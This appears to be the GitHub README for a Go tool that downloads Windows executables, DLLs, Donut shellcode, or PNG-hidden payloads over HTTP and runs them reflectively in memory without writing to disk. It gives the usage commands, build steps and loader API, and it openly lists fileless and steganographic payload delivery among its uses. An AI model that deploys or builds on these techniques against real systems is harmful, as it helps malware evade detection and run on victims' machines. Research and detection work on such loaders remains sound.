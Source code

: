 # pure go http memexec
[![Go CI](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml/badge.svg)](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml)

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk. Supports executables, DLLs, shellcode (Donut format), and PE files embedded in PNG images.


## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **DLL Support**: Can load DLLs in memory and call exported functions
- **Shellcode Support**: Execute Donut-generated shellcode directly in memory
- **Steganography Support**: Extract and execute PE files embedded in PNG images
- **Simple API**: Single command to download and execute payloads

[find binject debug here](https://github.com/Binject/debug)
## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. For EXEs: Executes the payload by jumping to its entry point
7. For DLLs: Calls DllMain with DLL_PROCESS_ATTACH and lets you call exported functions
8. For PNGs: Extracts the embedded donut shellcode from the PNG and runs it as a thread under the same PID

## Usage

```bash
# Basic usage with default URL (EXE mode)
./go-http-memexec

# Specify a custom download URL (EXE mode)
./go-http-memexec https://example.com/payload.exe

# Load a DLL into memory
./go-http-memexec -dll https://example.com/payload.dll

# Load a DLL and call an exported function by name
./go-http-memexec -dll -proc=RunPayload https://example.com/payload.dll

# Load a DLL and call an exported function by ordinal
./go-http-memexec -dll -ordinal=5 https://example.com/payload.dll

# Execute shellcode (Donut format only)
./go-http-memexec -shellcode https://example.com/shellcode.bin

# Extract and execute PE from PNG image
./go-http-memexec -image https://example.com/payload.png
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution
- Loading DLLs without registering them in the PEB loader list
- Steganographic payload delivery
- Shellcode execution from memory


## Build Instructions

```bash
# Clone repo 
git clone https://github.com/carved4/pure-go-http-memexec.git

# Navigate to directory
cd pure-go-http-memexec

# Get dependencies
go mod tidy

# Navigate to folder containing main.go
cd cmd

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## DLL Loading API

The package provides the following functions for DLL handling:

```go
// Load a DLL into memory
handle, err := runpe.LoadDLLInMemory(dllBytes)

// Get address of an exported function by name
procAddr, err := runpe.GetProcAddressFromMemoryDLL(handle, "ExportedFunctionName")

// Get address of an exported function by ordinal
procAddr, err := runpe.GetProcAddressByOrdinalFromMemoryDLL(handle, 5) // Ordinal 5

// Call the function
syscall.Syscall(procAddr, numArgs, arg1, arg2, arg3)

// Free the DLL when done
err = runpe.FreeDLLFromMemory(handle, 0)
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go
- The DLL loading functionality allows more flexible in-memory execution without process hollowing

## Shellcode Support

The `-shellcode` flag enables execution of shellcode directly in memory. **Important notes**:

- **Only Donut-generated shellcode is supported**
- Recommended Donut parameters: `-x 3` and `-e 3`
- The shellcode is executed in a new thread within the current process
- The main process will wait for user input before exiting, allowing the shellcode to run

## PNG Embedding

The `-image` flag enables extraction and execution of PE files embedded in PNG images:

- PE files are embedded using the included `embedPEpng` tool
- The embedding uses LSB (Least Significant Bit) steganography
- The tool automatically detects and extracts the PE file from the PNG
- After extraction, the PE is executed according to its type (EXE or DLL)

### Using the embedPEpng Tool

```bash
# Embed a PE file into a PNG image
./embedPEpng -i source.png -pe payload.exe -o output.png
```

## Demo Usage of tests (payloads pulled down in this example write a benign indicator of success as a .txt to a temp dir)
https://github.com/user-attachments/assets/fbf58f99-fc74-41af-a96a-5ea01bc0c2aa

## Contributing

Users are encouraged to submit issues and create forks of this project for their own use or to contribute improvements. When working with this codebase, please note:

- This project uses the BSD-3-Clause license, as does the Binject/debug/pe dependency
- When creating forks, please maintain the same license terms
- Contributions via pull requests are welcome
- Please give proper attribution and do not claim this work as your own
- When reusing portions of this code in other projects, ensure you comply with the BSD-3-Clause licensing requirements

## License

 [License: BSD-3-Clause](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations.



